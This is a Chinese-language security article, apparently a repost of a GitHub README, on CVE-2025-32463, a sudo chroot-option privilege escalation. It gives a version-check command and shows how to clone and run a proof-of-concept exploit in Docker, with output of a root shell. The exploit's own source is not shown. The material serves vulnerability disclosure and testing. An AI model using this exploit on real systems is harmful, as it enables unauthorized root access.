 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531729&idx=2&sn=670e1a9a5783709fe9c44ad380ee9354

#  通过带有 chroot 选项的 sudo 二进制文件将权限提升至 root CVE-2025-32463  
 Ots安全   2025-07-07 08:37  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
该存储库提供了一个最小的、可重现的环境来演示chroot 功能中的CVE-2025-32463权限提升缺陷。sudo  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><th data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;font-weight: 600;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">文件</span></font></font></th><th style="box-sizing: border-box;padding: 6px 13px;font-weight: 600;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf="">目的</span></font></font></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><strong style="box-sizing: border-box;font-weight: 600;margin-bottom: 0px;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: normal;">Dockerfile</span></span></font></font></strong></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;vertical-align: inherit;"></font><strong style="box-sizing: border-box;font-weight: 600;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">使用易受攻击的sudo 1.9.16p2</span></span></font></font></strong><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">和构建工具</span></span></font><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">构建 Ubuntu 24.04 映像</span></span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><strong style="box-sizing: border-box;font-weight: 600;margin-bottom: 0px;"><font style="box-sizing: border-box;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: normal;">sudo‑chwoot.sh</span></span></font></font></strong></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">概念验证漏洞，在 chroot 中生成 root shell</span></span></font></font></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1px solid rgba(209, 217, 224, 0.7);"><td data-colwidth="155" style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">run.sh</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(209, 217, 224);border-style: solid;border-width: 1px;border-image: none 100% / 1 / 0 stretch;"><font style="box-sizing: border-box;margin-bottom: 0px;vertical-align: inherit;"><font style="box-sizing: border-box;vertical-align: inherit;"><span leaf=""><span textstyle="" style="font-weight: bold;">构建镜像（如果需要）并启动漏洞利用容器的辅助脚本</span></span></font></font></td></tr></tbody></table>  
受影响的版本  
  
大多数 Linux 发行版上的sudo 1.9.14至1.9.17（所有 p 修订版）的易受攻击的版本均受到影响。  
  
快速漏洞检查  
  

```
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```

  
  
在 Docker 容器中测试漏洞利用  
  

```
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged &#34;sudo-chwoot&#34;)
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```

  
  
run.sh传递--privileged到--rmDocker，以便容器在您退出时自行清理。  
  
清理  
  
完成后删除图像：  
  

```
docker rmi sudo-chwoot
```

  
  
项目地址：  
  
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这**  
  
